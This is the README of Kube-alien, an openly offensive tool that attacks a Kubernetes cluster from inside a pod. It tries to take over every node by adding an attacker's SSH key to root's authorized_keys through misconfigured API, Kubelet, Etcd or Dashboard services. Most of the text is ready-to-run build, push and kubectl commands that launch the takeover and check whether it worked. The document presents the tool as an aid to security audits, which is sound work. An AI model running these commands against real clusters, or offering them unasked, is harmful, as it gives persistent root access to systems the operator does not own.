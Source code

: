 # Kube-alien

This tool launches attack on k8s cluster from within. That means you already need to have an access with permission to deploy pods 
in a cluster to run it. After running the kube-alien pod it tries to takeover cluster's nodes by adding your public key to node's 
/root/.ssh/authorized_keys file by using this image https://github.com/nixwizard/dockercloud-authorizedkeys (Can be adjusted using 
ADD_AUTHKEYS_IMAGE param in config.py) forked from docker/dockercloud-authorizedkeys.
The attack succeedes if there is a misconfiguration in one of the cluster's components it goes along the following vectors:

- Kubernetes API
- Kubelet service
- Etcd service
- Kubernetes-Dashboard

What is the purpose of this tool? 
- While doing security audit of a k8s cluster one can quickly assess it's security posture.
- Partical demostration of the mentioned attack vectors exploitation.

How can k8s cluster be attacked from within in a real life?
- RCE or SSRF vunerability in an app which is being run in one of your cluster's pods.

# Usage
Kube-alien image should be pushed to your dockerhub(or other registry) before using with this tool.

git clone https://github.com/nixwizard/kube-alien.git<BR>
cd kube-alien<BR>
docker build -t ka ./<BR>
docker tag ka YOUR_DOCKERHUB_ACCOUNT/kube-alien:ka<BR>
docker push YOUR_DOCKERHUB_ACCOUNT/kube-alien:ka<BR>

The AUTHORIZED_KEYS env required to be set to the value of your ssh public key, in case of success the public key will be added to all 
node's root's authorized_keys file.<BR>

kubectl run --image=YOUR_DOCKERHUB_ACCOUNT/kube-alien kube-alien --env="AUTHORIZED_KEYS=$(cat ~/.ssh/id_rsa.pub)" --restart Never<BR>

or you may use my image for quick testing purpose:<BR>

kubectl run --image=nixwizard/kube-alien kube-alien --env="AUTHORIZED_KEYS="$(cat ~/.ssh/id_rsa.pub)" --restart Never<BR>

Check Kube-alien pod's logs to see if attack was successful:<BR>
kubectl logs $(kubectl get pods| grep alien|cut -f1 -d' ')<BR>


# The following resources helped me a lot in creating this tool
- https://www.youtube.com/watch?v=vTgQLzeBfRU
- https://www.youtube.com/watch?v=dxKpCO2dAy8 (and other awesome posts on kubernetes attack surface at https://raesene.github.io)
- https://medium.com/handy-tech/analysis-of-a-kubernetes-hack-backdooring-through-kubelet-823be5c3d67c
